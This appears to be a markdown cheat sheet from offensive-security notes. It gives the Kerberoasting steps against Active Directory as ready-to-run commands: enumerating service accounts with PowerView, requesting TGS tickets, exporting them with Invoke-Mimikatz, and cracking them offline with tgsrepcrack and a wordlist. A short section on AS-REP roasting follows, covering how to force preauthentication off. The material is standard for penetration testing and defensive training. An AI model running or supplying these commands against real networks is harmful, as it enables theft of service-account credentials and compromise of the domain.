 ## <span style="color:lightgreen">PowerView</span>

### <span style="color:#F1C232">1. Find user accounts used as Service account</span>
 
```powershell
Get-NetUser -SPN
Get-NetUser -SPN -Verbose | select displayname,memberof
```

## <span style="color:lightgreen">Cmdlet</span>

### <span style="color:#F1C232">2. Request TGS</span> 
  
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "spn-name-here"
```

### <span style="color:#F1C232">3. Check if the TGS has been granted</span>
 
```powershell
klist
```


## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">4. Export all the tickets</span>
 
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```


## <span style="color:lightgreen">tgsrepcrack</span>

### <span style="color:#F1C232">5. Crack the Hash</span>
  
```console
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\file-name-which-got-exported.kirbi
```

# <span style="color:lightblue">AS-REPs</span>

-   If a user's **UserAccountControl** settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline.
-   With sufficient rights (**GenericWrite** or **GenericAll**), Kerberos preauth can be forced disabled as well.
